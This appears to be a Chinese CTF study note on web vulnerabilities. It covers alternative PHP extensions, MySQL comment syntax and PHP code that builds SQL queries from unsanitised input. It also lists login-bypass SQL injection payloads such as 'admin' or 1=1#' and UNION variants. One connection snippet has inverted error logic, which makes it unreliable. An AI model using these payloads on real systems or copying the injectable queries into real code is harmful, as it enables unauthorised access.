 **php拓展名**

- `.php3`，`.php4`，`.php5`，`.php7`，`.phtml`，`.phps`，`.pht`



### SQL注入漏洞

**MySQL中的注释：**

- `#`，直接加注释内容，有时需要注意可能被解析为页内跳转，所以使用`%23`
- `--`，`--`注释符后需要加一个空格，注释才能生效
- `/* */`，多行注释符
- `-+`，注释变体

**php连接mysql**

```PHP
$pwd = $_POST['pwd'];
$pwd = md5($pwd);
    
$conn = mysqli_connect("主机名", "用户名", "密码", "数据库名", 端口); // 变量填$password
if($conn){
    die("Mysql connect error");
}
// 选择数据库
$selectDB = mysqli_select_db($conn, $dbName);

```

**sql fuzz**：使用`https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/sql-injection/detect/xplatform.txt`中的数据结合 burpsuite 进行模糊测试



#### 漏洞点

```php
$sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_array($result);

if ($row) {}
```

此处可使用`payload`：

1. 万能密码型：`admin' or 1 = 1# `
   1. `SELECT * FROM admin WHERE email='a@e.com'OR 1 = 1# AND pwd='$pwd'`
2. 联合型：`b' UNION SELECT * FROM admin WHERE 1 = 1-- `
   1. `SELECT * FROM admin WHERE email='a@e.com' UNION SELECT * FROM admin WHERE 1 = 1-- AND pwd='$pwd'`
3. 万能密码2型：`admin' = ''-- `即 False='' 恒成立
   1. **`SELECT * FROM admin WHERE email='a@e.com' = ''-- AND pwd='$pwd'`**

**拼接**

```php
$sql = "select ".$post['query']."||flag from Flag"; // ||默认为或运算符，未使用预处理语句
mysqli_multi_query($conn, $sql);

do{
    if($res = mysqli_store_result($conn)){ // 获取查询结果
        while($row = mysqli_fetch_row($res)){ // 逐行获取查询结果并打印
            print_r($row);
        }
    }
}while(@mysqli_next_result($conn)); // 支持多条SQL语句执行
```
